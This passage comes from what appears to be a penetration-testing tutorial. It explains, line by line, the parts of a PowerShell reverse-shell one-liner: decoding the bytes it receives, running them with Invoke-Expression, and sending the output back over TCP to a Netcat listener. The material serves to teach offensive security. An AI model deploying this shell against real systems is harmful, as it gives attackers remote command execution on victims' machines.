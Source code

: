 ```cmd-session
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);

```

Sets/evaluates the variable `$data` equal to ( `=`) an [ASCII](https://en.wikipedia.org/wiki/ASCII) encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream ( `$bytes`) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Invoke-Expression

```cmd-session
$sendback = (iex $data 2>&1 | Out-String );

```

Sets/evaluates the variable `$sendback` equal to ( `=`) the Invoke-Expression ( `iex`) cmdlet against the `$data` variable, then redirects the standard error ( `2>`) `&` standard output ( `1`) through a pipe ( `|`) to the `Out-String` cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Show Working Directory

```cmd-session
$sendback2 = $sendback + 'PS ' + (pwd).path + '> ';

```

Sets/evaluates the variable `$sendback2` equal to ( `=`) the `$sendback` variable plus ( `+`) the string PS ( `'PS'`) plus `+` path to the working directory ( `(pwd).path`) plus ( `+`) the string `'> '`. This will result in the shell prompt being PS C:\\workingdirectoryofmachine >. The semi-colon ( `;`) ensures the commands & code are executed sequentially. Recall that the + operator in programming combines strings when numerical values aren't in use, with the exception of certain languages like C and C++ where a function would be needed.

#### Sets Sendbyte

```cmd-session
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}

```

Sets/evaluates the variable `$sendbyte` equal to ( `=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

#### Terminate TCP Connection

```cmd-session
$client.Close()"

```

This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.
